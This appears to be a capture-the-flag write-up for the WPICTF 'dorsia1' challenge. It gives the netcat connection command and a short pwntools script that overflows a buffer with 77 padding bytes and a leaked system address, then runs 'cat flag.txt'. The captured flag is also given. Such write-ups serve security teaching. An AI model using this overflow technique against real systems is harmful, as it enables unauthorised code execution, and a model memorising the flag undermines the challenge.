

#### Challenge:



The first card.

`nc  dorsia1.wpictf.xyz 31337` or `31338` or `31339`

---

#### Solution:

```python
#!/usr/bin/env python
from pwn import *
import struct

r = remote('dorsia1.wpictf.xyz', 31337)

sys_address = int(r.recvline().decode('utf-8').strip()[2:], 16)

payload = "A" * 77 + \
    struct.pack("Q", sys_address)

r.sendline(payload)
r.sendline("cat flag.txt")
print(r.recvline())
```

---

<details><summary>FLAG:</summary>

```
WPI{FEED_ME_A_STRAY_CAT}
```

</details>
<br/>
